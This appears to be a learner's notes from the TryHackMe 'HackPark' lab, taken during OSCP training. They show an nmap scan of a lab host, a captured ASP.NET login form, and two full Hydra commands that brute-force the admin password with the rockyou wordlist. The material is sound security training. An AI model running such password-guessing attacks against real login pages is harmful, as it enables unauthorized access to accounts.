 kali@kali:~/oscptraining/tryhackme/hackpack$ nmap -sV -sC -o nmap 10.10.4.115
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 10:27 EDT
Nmap scan report for 10.10.4.115
Host is up (0.25s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-05-03T14:23:40
|_Not valid after:  2021-11-02T14:23:40
|_ssl-date: 2021-05-04T14:28:20+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.04 seconds

port 80 and 3389 are open

 Windows website login form using POST method
<form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">

the steps for to get the hydra command at the back is as follows
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

kali@kali:~/oscptraining/tryhackme/hackpack$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.115 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin:__VIEWSTATE=grAt5ynSnVWRiGrtMIbnltxKq5lVYTU1mg05sjpBmyX97TJvxlMSbHFs8T%2FWMUhUug08dks8%2FQsmmBkhSMnoQUK95nyNN3NqFOJXm2L3PJWWZjMc4OwqLk8neyTQdVwcYZ34RXJwEDH9pc6FjyC4fkubmatuu5mLd0j7PLEF%2BwHTjChs&__EVENTVALIDATION=sOJdUWaZw6uOtm1onUPcsuxD1qsmegV89dt9hXwCxr7tkQqOODLMLBuOGwZH%2F7a5p5a2ifEAAj%2FTGtyOOlCZkWFqLKglFZPNe3M%2BRmbK%2FpOdwfZm0kJth0BHkioI68IKXV2dzSlVUAXZ7SGdIAWewsRNKjCJcb%2Bpl4C5GxT8fC%2FasZAR&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
